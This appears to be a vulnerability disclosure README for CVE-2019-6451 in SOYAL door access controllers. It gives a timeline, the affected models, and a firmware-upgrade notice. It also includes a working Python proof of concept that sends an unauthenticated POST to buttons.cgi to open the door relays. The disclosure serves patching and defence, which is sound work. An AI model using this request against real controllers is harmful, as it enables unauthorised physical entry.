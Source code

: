 CVE-2019-6451 weak authentication of SOYAL E-V5 Controller is solved.  
Please upgrade your controller to the newest firmware version V4.03 !!
http://soyal.com/download.php?cid=2


# CVE-2019-6451

## Timeline

- January 15, 2019 reported to SOAYL
- January 15, 2019 arranged meeting time for further discussions
- January 16, 2019 CVE assigned

## Affected Products

- SOYAL-AR727H
- SOYAL-AR829Ev5

## Technical Details

On thoses devices, all CGI programs allow unauthenticated POST access.

if you know the proper parameters and format, anyone can make it work

like open the door or insert new account on the device

![](https://github.com/cvereveal/CVEs/blob/master/CVE-2019-6451/pics/soyal_direct_control.png)

In the `Direct Control` tab, you can control the door directly.

replay with Burpsuite or send it by python code below

```python
import requests

response = requests.post('http://IP/buttons.cgi', data={'btn_Node': '255',
    'btnOpenAllPulse': '+Action+',
    'btn_nameDI0': 'DI0',
    'btn_nameDI1': 'DI1',
    'btn_nameDI2': 'DI2',
    'btn_nameDI3': 'DI3',
    'btn_nameDO0': 'RelayOutput0',
    'delayDO0':'0',
    'btn_nameDO1': 'DO1',
    'delayDO1': '0',
    'btn_nameDO2': 'DO2',
    'delayDO2': '0',
    'btn_nameDO3': 'DO3',
    'delayDO3': '0'})
```

***OPEN SESAME !!!***

![](https://github.com/cvereveal/CVEs/blob/master/CVE-2019-6451/pics/door_open.png)

## Discoverer

- [National Center for Cyber Security Technology](https://www.nccst.nat.gov.tw/)

